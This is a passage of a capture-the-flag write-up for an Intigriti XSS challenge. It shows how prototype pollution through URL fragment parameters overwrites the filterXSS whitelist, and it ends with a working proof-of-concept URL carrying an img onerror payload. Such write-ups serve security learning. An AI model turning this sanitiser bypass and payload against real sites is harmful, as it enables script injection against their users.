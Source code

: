 * Overwriting `whitelist` ...
`url: http://localhost:8000/?page=1#a[__proto__][whiteList]=xss`

<img src="https://i.imgur.com/5xExHpr.png">

* You can see, We Successfully Overwritten the `whiteList`.
* In Order to Make it Work, we need to Inject `key-value` pairs. key as `HTML-Tag` and value as `attributes`. 

`url : a[__proto__][whiteList][img]=src%3Dx%20onerror%3Dalert(document.domain)` - [url-encoded]
<img src="https://i.imgur.com/lbQUd58.png">

# Final PoC

* Now We Have `filterXSS` bypass, and can inject our Own Value.
* Injection our payload into `Object Prototype` -> `Prototype Pollution` to Overwrite `filterXSS` function, so Our Payload will not be Filtered. 

PoC: `https://challenge-0522.intigriti.io/challenge/challenge.html?page=6#a[__proto__][6]=%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E&a[__proto__][whiteList][img]=src%3Dx%20onerror%3Dalert(document.domain)`

urlDecoded: `https://challenge-0522.intigriti.io/challenge/challenge.html?page=6#a[__proto__][6]=<img src=x onerror=alert(document.domain)>&a[__proto__][whiteList][img]=src=x onerror=alert(document.domain)`

<img src="https://i.imgur.com/zbkjuAv.png">

# Final Thoughts
* This Challenge was Really Fun and Easy Challenge. I loved this. Thanks Intigriti  <3


# Resources

* https://www.youtube.com/watch?v=GhJTy5-X3kA
* https://www.youtube.com/watch?v=54GYCl7Beh4 [Language: Tamil]
* https://www.w3schools.com/js/js_object_constructors.asp
